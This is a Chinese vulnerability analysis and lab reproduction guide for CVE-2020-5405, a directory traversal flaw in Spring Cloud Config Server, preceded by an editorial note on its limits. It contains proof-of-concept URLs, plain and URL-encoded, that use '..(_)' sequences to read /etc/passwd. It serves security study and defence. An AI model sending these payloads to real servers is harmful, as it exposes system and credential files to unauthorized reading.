


## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：2.2.0–1、2.1.0–6，实验2.1.5；明确native而非Git checkout前提

代码与实验材料：完整native配置、label(_)替换与失败Git路径对比，有独立价值；无修复版本/commit

来源证据范围：p0desta原分析和先知、固定官方源码archive

- **适用与权限边界（1）**：修复及环境参数需标准化；依据：本地文件路径硬编码macOS用户目录，示例HTTPS端口但配置未启TLS，缺安全版本。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **适用与权限边界（2）**：图片和配置排版污染；依据：每图后资源残串，profiles-active文字与实际profiles.active应统一。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

（CVE-2020-5405）Spring Cloud Config Server 目录穿越漏洞
========================================================

一、漏洞简介
------------

Spring Cloud
Config为分布式系统的外部配置提供客户端的服务端的支持。使用了它，开发人员就可以在一个中心仓库管理应用程序在所有环境中的外部配置。2020-02-26
Spring 收到漏洞报告, Spring Cloud Config Server 存在目录穿越漏洞。

二、漏洞影响
------------

Spring Cloud Config Server 2.2.0-2.2.1

Spring Cloud Config Server 2.1.0-2.1.6

三、复现过程
------------

### 漏洞分析

其实往前看有个替换的操作,很显眼

SpringCloudConfigServer目录穿越漏洞/media/rId25.png)

name和label的`(_)`会被替换成`/`,看到这里,我尝试构造poc

    http://www.0-sec.org:8888/aaaa/aaaa/%2e%2e%28%5f%29%2e%2e%28%5f%29%2e%2e%28%5f%29%2e%2e%28%5f%29%2e%2e%28%5f%29%2e%2e%28%5f%29%2e%2e%28%5f%29%2e%2e%28%5f%29%65%74%63/passwd

我们让label为`..(_)..(_)..(_)..(_)..(_)..(_)..(_)..(_)etc`,path为`passwd`,这样拼接完应该是`file:/xxx/xxx/xxx/../../../../../etc/passwd`

但是如果label不为master的话,代码逻辑就会先去checkout,然后就异常了

这里面会导致抛出异常,具体抛出异常的点在哪呢,在`org.springframework.cloud.config.server.environment.MultipleJGitEnvironmentRepository`

SpringCloudConfigServer目录穿越漏洞/media/rId26.png)

在CVE-2019-3799中,我们使用的配置是常用的`spring.cloud.config.server.git.uri`,它会选择使用`MultipleJGitEnvironmentRepository.class`的getLocations,然后就会走到checkout,抛出异常了,那么我们怎么去不走checkout逻辑呢。

通过翻文档[https://zq99299.github.io/note-book/spring-cloud-tutorial/config/002.html\#%E7%89%88%E6%9C%AC%E6%8E%A7%E5%88%B6%E5%90%8E%E7%AB%AF%E6%96%87%E4%BB%B6%E7%B3%BB%E7%BB%9F](https://zq99299.github.io/note-book/spring-cloud-tutorial/config/002.html#版本控制后端文件系统)

得知这个配置是让它从本地进行加载,而不是用git,通过在application.properties配置

    spring.profiles.active=native
    spring.cloud.config.server.native.search-locations=file:/Users/p0desta/Desktop

其实通过补丁我们也可以发现端倪

SpringCloudConfigServer目录穿越漏洞/media/rId28.png)

配置后重新跟进调试

SpringCloudConfigServer目录穿越漏洞/media/rId29.png)

然后就在`/org/springframework/cloud/config/server/environment/NativeEnvironmentRepository.class@getLocations`中对路径进行了处理,大致就是对路径进行拼接,然后存在ouput数组中,返回一个新的Locations对象

SpringCloudConfigServer目录穿越漏洞/media/rId30.png)

然后后面就是跟CVE-2019-3799一样,直接读文件了。

### 漏洞复现

下载官方Spring Cloud
Config，具体版本`versions 2.1.5.RELEASE`，下载地址为：

    https://github.com/spring-cloud/spring-cloud-config/archive/v2.1.5.RELEASE.zip

导入IDEA项目

SpringCloudConfigServer目录穿越漏洞/media/rId32.png)

修改配置文件`src/main/resources/configserver.yml`

    info:
      component: Config Server
    spring:
      application:
        name: configserver
      autoconfigure.exclude: org.springframework.boot.autoconfigure.jdbc.DataSourceAutoConfiguration
      jmx:
        default_domain: cloud.config.server
      profiles:
        active: native
      cloud:
        config:
          server:
            native:
              search-locations:
                - file:///Users/rai4over/Desktop/spring-cloud-config-2.1.5/config-repo

    server:
      port: 8888
    management:
      context_path: /admin

设置`profiles-active`为`native`，设置`search-locations`为任意文件夹。

主文件入口位置为`org.springframework.cloud.config.server.ConfigServerApplication`，运行`spring-cloud-config-server`模块，环境开启成功运行在`127.0.0.1:8888`。

### POC

    https://www.0-sec.org:8888/1/1/..(_)..(_)..(_)..(_)..(_)..(_)..(_)..(_)..(_)etc/passwd

URL编码变形

    https://www.0-sec.org:8888/1/1/..%28_%29..%28_%29..%28_%29..%28_%29..%28_%29..%28_%29..%28_%29..%28_%29etc/passwd

返回结果

SpringCloudConfigServer目录穿越漏洞/media/rId34.png)

参考链接
--------

> http://p0desta.com/2020/04/16/spring-cloud-config%E7%9B%AE%E5%BD%95%E7%A9%BF%E8%B6%8A%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/\#CVE-2020-5405%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90
>
> https://xz.aliyun.com/t/8303
